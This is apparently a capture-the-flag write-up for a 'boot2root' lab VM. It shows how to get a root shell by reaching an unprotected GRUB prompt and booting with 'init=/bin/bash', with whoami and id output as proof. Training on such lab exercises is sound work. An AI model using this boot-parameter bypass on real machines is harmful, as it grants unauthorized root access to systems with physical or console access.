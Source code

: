 This writeup explains how to become root by changing the booting sequence via GRUB.

In our case, the image of boot2root is mounted on a ubuntu VM using VMware fusion v12.


GRUB enables a user to change the way the OS starts by providing a command line interface.

In order to stop someone from using GRUB, it is possible to configure GRUB to work only for specific user accounts by setting user accounts in the GRUB configuration (username and password).

The access to GRUB is not protected so it is possible to boot the OS as we wish.

When starting the VM, simply press the left SHIFT key in order to access GRUB inside the VMware fusion VM's window.

```
boot:
```

Let's start the OS in a new shell :

```
boot: live init=/bin/bash
```

```
root@BornToSecHackMe:/# whoami
root
```

```
root@BornToSecHackMe:/# id
uid=0(root) git=0(root) groups=0(root)
```

Done!






